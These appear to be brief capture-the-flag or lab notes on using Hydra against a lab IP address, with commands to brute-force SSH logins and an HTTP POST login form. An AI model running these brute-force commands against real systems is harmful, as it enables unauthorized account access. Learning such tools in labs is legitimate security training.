 ### SSH
Brute forcing the ssh with hydra

```
hydra -l <username> -P <full path to pass> 10.10.32.232 -t 4 ssh
```

### Post Web Form

We can use Hydra to brute force web forms too. You must know which type of request it is making; GET or POST methods are commonly used. You can use your browser’s network tab (in developer tools) to see the request types or view the source code.

``` 
sudo hydra <username> <wordlist> 10.10.32.232 http-post-form "<path>:<login_credentials>:<invalid_response>"
```
Below is a more concrete example Hydra command to brute force a POST login form:
```bash
hydra -l <username> -P <wordlist> 10.10.32.232 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```
